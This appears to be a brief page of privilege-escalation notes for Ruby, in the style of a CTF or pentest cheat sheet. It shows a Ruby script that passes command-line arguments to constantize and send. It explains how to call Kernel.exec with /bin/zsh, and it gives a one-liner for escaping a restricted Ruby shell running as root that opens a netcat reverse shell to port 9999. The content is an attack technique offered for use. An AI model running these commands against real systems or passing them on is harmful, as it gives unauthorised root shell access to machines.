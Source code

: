 # ruby
[https://www.ruby-lang.org](https://www.ruby-lang.org)   [https://rubyfu.net/](https://rubyfu.net/) 

|     |     |
| --- | --- |
| 1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7  <br>8  <br>9<br><br>10 | ```text-plain<br>#!/usr/bin/ruby<br><br>require 'rails'<br><br>if ARGV.size == 3<br>    klass = ARGV[0].constantize<br>    obj = klass.send(ARGV[1].to_sym, ARGV[2])<br>else<br>    puts File.read(__FILE__)<br>end<br>``` |

*   Class: `Kernel`
*   class method: `exec()`
*   argument: `/bin/zsh`

use `irb`  to get a ruby command prompt,

for a restricted(special characters blocked) ruby shell, running as root use 

```text-x-ruby
 %x{nc -e /bin/zsh localhost 9999}
```